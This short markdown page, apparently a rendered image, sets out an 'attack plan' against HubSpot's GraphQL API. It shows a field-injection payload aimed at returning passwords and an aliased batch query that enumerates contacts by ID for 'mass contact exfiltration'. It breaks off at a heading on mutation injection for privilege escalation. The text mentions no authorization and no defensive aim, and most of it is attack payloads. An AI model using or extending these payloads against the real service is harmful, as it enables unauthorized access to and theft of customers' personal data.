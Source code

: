 ### HubSpot GraphQL Injection Attack Plan

#### Test 1: Introspection-Based Field Injection

**What We Have**:
```graphql
# Known query: CrmObjectsSearchQuery
query CrmObjectsSearchQuery(
  $objectTypeId: String!
  $properties: [String!]
) {
  crmObjectsSearch(objectTypeId: $objectTypeId, properties: $properties) {
    results {
      id
      properties { name value }
    }
  }
}
```

**Test**: Can we inject additional fields?

```graphql
# Normal properties array:
["email", "firstname", "lastname"]

# Injected:
["email", "firstname", "lastname"] } sensitiveField:allContacts { password
```

**Goal**: Access fields not normally returned

#### Test 2: Batch Query IDOR

**Normal Request**:
```graphql
query {
  contact(id: "12345") {
    email
  }
}
```

**Injected**:
```graphql
query {
  c1: contact(id: "1") { email }
  c2: contact(id: "2") { email }
  c3: contact(id: "3") { email }
  # ... enumerate all contacts
}
```

**Impact**: Mass contact exfiltration

#### Test 3: Mutation Injection for Privilege Escalation
